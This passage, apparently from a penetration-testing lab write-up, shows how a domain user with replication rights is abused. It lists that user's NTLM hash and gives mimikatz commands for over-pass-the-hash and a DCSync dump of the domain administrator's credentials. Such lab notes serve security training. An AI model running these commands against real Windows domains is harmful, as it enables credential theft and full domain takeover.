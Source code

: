 ![picture 25](images/e59d169d1a7b753f02f76c92427a18d7f3218cf6fdf2ffdf66f1d401a862a3e9.png)  

- The user `vdadmin` has extended right to:
    - `DS-Replication-Get-Changes-In-Filtered-Set`
    - `DS-Replication-Get-Changes`
    - `DS-Replication-Get-Changes-All`
- These 3 permissions are the requirements of doing DCSync

<br/>

Note in the credential dump, we get the NTLM of `vdadmin`:
- `1fbba53e43f63e4b29fb31376bd33fda`

In this case, we may use the over-pass-the-hash technique to perform a DCSync.

<br/>

```
.\mimikatz.exe
```

```
sekurlsa::pth /domain:nuclear.site /user:vdadmin /ntlm:1fbba53e43f63e4b29fb31376bd33fda /run:cmd.exe
```

On the new prompt, run mimikatz again:

```
.\mimikatz.exe
```

```
privilege::debug
```

```
lsadump::dcsync /user:nuclear\administrator
```

![picture 26](images/8632b80110346250f514ebd5421eed7d5f709f2f7fd525ff8b10f6032ece5937.png)  
